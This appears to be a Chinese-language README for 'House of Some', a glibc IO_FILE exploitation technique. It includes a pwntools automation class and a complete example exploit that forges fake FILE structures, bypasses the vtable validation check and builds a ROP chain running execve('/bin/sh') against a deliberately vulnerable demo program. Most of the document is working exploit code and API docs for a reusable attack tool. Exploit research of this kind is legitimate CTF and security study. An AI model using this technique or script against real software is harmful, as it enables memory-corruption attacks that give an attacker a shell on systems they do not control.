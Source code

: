 # House of Some

一种新的IO_FILE利用思路，利用条件为

1. 已知glibc基地址
2. 可控的地址（可写入内容构造fake file）
3. 需要一次libc内任意地址写可控地址
4. 程序能正常退出或者通过exit()退出

House of some具有以下优点：

1. 无视目前的`IO_validate_vtable`检查（wide_data的vtable加上检查也可以打）
2. 第一次任意地址写要求低
3. 最后攻击提权是栈上ROP，可以不需要栈迁移
4. 源码级攻击，不依赖编译结果

详细思路见https://blog.csome.cc/p/house-of-some/

## 自动化

在exit退出之后使用如下脚本即可

```python
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, ret_address)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from House_of_some import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

_IO_file_jumps_addr = libc_base + 0x216600

fake_wide_data = flat({
    0xE0: _IO_file_jumps_addr - 0x48,
    0x18: 0,
    0x20: 1,
}, filler=b"\x00")

fake_file_read = flat({
    0x00: 0, # _flags
    0xc0: 2, # _mode
    0x70: 0, # _fileno
    0x28: 0, # _IO_write_ptr
    0x20: 0, # _IO_write_base
    0x82: 0, # _vtable_offset
    
    0x38: heap_addr + 0xe0 + 0xe8, # _IO_buf_base
    0x40: heap_addr + 0xe0 + 0xe8 + 0x400, # _IO_buf_end

    0xa0: heap_addr + 0xe0, # _wide_data
    0xd8: libc_base + 0x2160C0, # vtable

    0x68: heap_addr + 0xe0 + 0xe8, # _chain next file
}, filler=b"\x00")

payload = flat({
    0x00: fake_file_read,
    0xe0: fake_wide_data
})
# 构造第一个任意地址写的fake file
io.sendlineafter(b"content> ", payload)
write(libc_base + 0x21a680, 8, p64(heap_addr))
leave() # exit

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - 文件表述符
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址

